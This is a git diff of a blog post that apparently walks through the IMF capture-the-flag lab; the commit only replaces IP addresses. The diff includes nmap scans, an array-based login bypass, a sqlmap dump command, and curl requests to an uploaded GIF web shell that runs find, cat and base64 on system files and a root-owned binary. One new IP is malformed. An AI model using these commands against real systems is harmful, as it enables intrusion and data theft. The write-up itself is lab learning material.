

Before and after one commit to m4l1c3/m4l1c3.github.io, a Jekyll site: the page built from _posts/2016-11-24-imf.markdown, in a window 1280 px wide and 1400 px high, scrolled down 995 px. Shown: the whole window, without its empty margins (238-1040 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
Updating random IPs so they're consistent with the rest of the document.

```diff
--- a/_posts/2016-11-24-imf.markdown
+++ b/_posts/2016-11-24-imf.markdown
@@ -8,13 +8,13 @@ title: imf
 ##Finding machine on the network:
 
 ###Nmap
-nmap -sn 192.168.1.0/24
+nmap -sn 172.16.161.129/24
 
-Scan for hosts on my local network (192.168.1.1) which gave me a machine named "imf"
+Scan for hosts on my local network which gave me a machine named "imf"
 
 Now to run nmap on the machine itself:
 
-nmap -Pn -oA imf-nmap-results -p 0-65525 192.168.1.21
+nmap -Pn -oA imf-nmap-results -p 0-65525 172.16.161.129
 
 Looks like port 80 is open.
 
@@ -46,7 +46,7 @@ I get:
 
 imfadministrator
 
-I tried browsing to: http://192.168.1.21/imfadministrator
+I tried browsing to: http://172.16.161.129/imfadministrator
 
 Loads up a login page, upon viewing the page source I find:
 
@@ -59,7 +59,7 @@ Trying the user it seems the user is valid.
 After some googling, looks like there is a potential authentication type conversion that might get us around authentication.  Looking at a post changing the type of the data that is received server side could bypass authentication.  Intercepting the HTTP post with burp and changing pass to pass[], this ends up sending an array down to the server instead of a string, improper handling of the input must be how we can get past it.  Once the post is forwarded another flag: flag3{Y29udGludWVUT2Ntcw==} which decodes to: continueTOcms
 
 
-sqlmap --url http://192.168.1.21/imfadministrator/cms.php?pagename=home --threads 5 --level 5 --cookie="PHPSESSID=phpsessionid" --dbms=MYSQL --dump
+sqlmap --url http://172.16.161.129/imfadministrator/cms.php?pagename=home --threads 5 --level 5 --cookie="PHPSESSID=phpsessionid" --dbms=MYSQL --dump
 
 Important to remember the last two parameters, I missed these originally and totally didn't get some output for moving forward from the command line.
 
@@ -78,16 +78,16 @@ No luck though when trying to hit the interesting ports.
 
 Trying to hit port 7788:
 
-curl http://192.168.1.20/imfadministrator/uploads/c59ca80d5d76.gif?c=nc localhost 7788
+curl http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=nc localhost 7788
 
 I get a little shell app. Given that we are investigating "agentservice" I do a find on agent:
 
-curl http://192.168.1.20/imfadministrator/uploads/c59ca80d5d76.gif?c=find%20/%20-name%20%22(asterisk)agent%22
+curl http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=find%20/%20-name%20%22(asterisk)agent%22
 
 Which found:
 /etc/xinetd.d/agent
 
-curl http://192.168.1.20/imfadministrator/uploads/c59ca80d5d76.gif?c=cat%20/etc/xinetd.d/agent
+curl http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=cat%20/etc/xinetd.d/agent
 
 Gets:
 
@@ -107,7 +107,7 @@ service agent
 
 Looks like /usr/local/bin/agent is a service running.
 
-curl -v http://192.168.0.14/imfadministrator/uploads/c59ca80d5d76.gif?c=ls%20-latr%20/usr/local/bin/agent
+curl -v http://172.16.161.1.129/imfadministrator/uploads/c59ca80d5d76.gif?c=ls%20-latr%20/usr/local/bin/agent
 
 -rwxr-xr-x 1 root root 11896 Oct 12 22:39 /usr/local/bin/agent
 
@@ -115,7 +115,7 @@ The service runs as root, possibly a way in
 
 In order to get a look at the binary I base64 encoded the file contents and saved it to a file locally:
 
-curl -v http://192.168.0.14/imfadministrator/uploads/c59ca80d5d76.gif?c=base64%20-w%200%20/usr/local/bin/agent
+curl -v http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=base64%20-w%200%20/usr/local/bin/agent
 
 Then decoded it locally:
 
```
